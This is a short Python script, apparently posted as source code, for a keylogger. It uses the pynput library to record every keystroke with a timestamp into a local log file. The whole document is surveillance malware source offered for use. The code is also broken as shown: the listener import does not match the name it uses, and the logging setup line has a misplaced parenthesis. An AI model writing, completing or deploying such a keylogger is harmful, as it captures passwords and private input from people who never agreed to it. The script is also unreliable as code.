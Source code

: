 # Keylogger.py
import pynput
from pynput.keyboard import Key,listener
import logging 

log_dir = r"C:/Path/TO/Keylogger"
logging.basicConfig(filename = log_dir + r"/keylog.txt"),level=logging.DEBUG, format='%(asctime)s: %(message)s')

def on_press(key):
    logging.info(str(key))
   
with Listener(on_press=on_press) as listener:
     listener.join()

